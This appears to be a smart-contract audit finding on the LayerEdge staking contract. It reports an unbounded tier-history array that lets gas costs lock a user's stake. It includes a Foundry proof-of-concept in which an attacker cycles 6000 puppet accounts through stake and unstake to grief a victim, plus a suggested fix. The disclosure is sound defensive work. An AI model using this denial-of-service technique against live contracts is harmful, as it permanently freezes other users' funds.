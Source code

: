 Mysterious Gingham Sardine

High

# stakerTierHistory is an unbound array that can be extended such that a user's funds are permamently lost

### Summary

In LayerEdgeStaking.sol, an stakerTierHistory is used for each user to track their tier history in a boundless array. This array is iterated through every time a user does any action with the protocol in calculateUnclaimedInterest(), which is called as part of _updateInterest(), which is called as part of every user action. This array is iterated over in its entirety every time this happens, which can make any user operation eventually cost more gas than is permitted in a block, permanently locking the user's tokens in the contract.

### Root Cause

In [calculateUnclaimedInterest()](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L419-L426), the user's tier history is iterated through in its entirety.

```solidity
        for (uint256 i = 0; i < userTierHistory.length; i++) {
            if (userTierHistory[i].timestamp <= fromTime) {
                currentTier = userTierHistory[i].to;
                relevantStartIndex = i;
            } else {
                break;
            }
        }
```

There is another loop which goes through the array starting at a given index:

```solidity
        for (uint256 i = relevantStartIndex + 1; i < userTierHistory.length; i++) {
```

This index is added to every time the user changes tier, which can happen because of other users staking and unstaking tokens. This happens in _recordTierChange:

```solidity
        stakerTierHistory[user].push(TierEvent({from: old, to: newTier, timestamp: currentTime}));
```

This means that if a user sticks around in the staking pool long enough, organic user activity can lock his funds permanently. Additionally, an attacker can abuse the system by staking and unstaking small amounts over and over again to increase the length of a user's tier history array.

Additionally, every time the user's tier is iterated through the system, it also iterates through every apy change for that tier. This has a multiplicative effect on gas consumption, such that every apy change in the protocol's history will drastically decrease the number of tier changes a user needs to experience to be locked out of his funds.

### Internal Pre-conditions

The affected user must be staked and not be first in line.

### External Pre-conditions

No external preconditions.

### Attack Path

1. A user stakes a position
2. Whether because of organic activity or an attack, the user crosses the tier boundary several times
3. The user can now no longer withdraw

### Impact

The affected user loses all staked funds and can never withdraw.

### PoC

Please copy and paste this in LayerEdgeStakingTest.t.sol. Please run with an increased gas limit - forge test -vvvv --mt test_audit_gas_bomb --gas-limit 1000000000000

```solidity
function test_audit_gas_bomb() public {
    // NOTE must be run with high gas limit
    // forge test -vvvv --mt test_audit_gas_bomb --gas-limit 1000000000000
    address attacker = makeAddr("attackerAttacker");
    vm.startPrank(admin);
    token.transfer(attacker, MIN_STAKE * 10000);

    setupMultipleStakers(9);

    vm.startPrank(attacker);
    token.approve(address(staking), type(uint256).max);

    for (uint256 i; i < 6000; i++) {
        address puppet = makeAddr(vm.toString(100001 + i));
        vm.startPrank(attacker);
        token.transfer(puppet, MIN_STAKE);
        vm.startPrank(puppet);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        staking.unstake(MIN_STAKE);
    }

    // bob's user history has been appended to so many times that he can't function
    // any function he calls will revert because calculateUnclaimedInterest will take 45M gas
    uint256 gasBefore = gasleft();
    staking.getAllInfoOfUser(bob);
    uint256 gasAfter = gasleft();
    uint256 gasSpent = gasBefore - gasAfter;
    console2.log(gasSpent); // according to the log, 87M gas spent, according to the trace, 45M
    // either way, too much for bob to be able to do anything, his stake is stuck
}
```

### Mitigation

Consider storing a starting index for users so that the function doesn't iterate through every item every time. This would make it so that although the DOS is possible, as long as the user calls any function on the protocol every now and then the gas would remain within bounds. Currently, the whole thing is iterated over every time which given sufficient user activity can cause problems. Alternatively, allow users to collect interest with a function that processes n amount of tier changes so that the process can be broken into smaller transactions.